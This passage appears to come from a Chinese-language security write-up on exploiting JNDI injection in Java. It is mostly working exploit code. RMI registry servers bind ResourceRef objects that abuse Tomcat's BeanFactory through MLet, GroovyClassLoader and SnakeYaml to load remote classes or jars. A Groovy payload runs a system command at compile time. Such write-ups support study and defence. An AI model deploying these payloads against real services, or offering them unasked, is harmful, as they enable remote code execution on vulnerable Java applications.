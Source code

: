 ```java
```
`groovy.lang.GroovyShell#evaluate` 方法类似。


#### MLet
如下的 payload 可以通过 URLClassloader 远程加载类, 但由于无法实例化对象，因此无法 RCE。
```java
    public static void AttackWithMLet() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
        ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
        ref.add(new StringRefAddr("b", "http://127.0.0.1:9999/"));
        ref.add(new StringRefAddr("c", "Blue"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }

```
#### GroovyClassLoader
GroovyClassLoader 也同样可以远程加载类
```java
    public static void AttackWithGroovyClassLoader() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=addClasspath,b=loadClass"));
        ref.add(new StringRefAddr("a", "http://127.0.0.1:9999/"));
        ref.add(new StringRefAddr("b", "blue"));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }
```

blue.groovy
```java
@groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec("mate-calc")})
class Person{}
```

#### SnakeYaml
org.yaml.snakeyaml.Yaml.load 函数也符合上面的要求，因此也可以利用 SnakeYaml 反序列化。
```java
    public static void AttackWithSnakeYaml() throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String yaml = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://127.0.0.1:9999/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
        ref.add(new StringRefAddr("forceString", "x=load"));
        ref.add(new StringRefAddr("x", yaml));
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        registry.bind("Foo", wrapper);
        System.err.println("Server ready");
    }
```
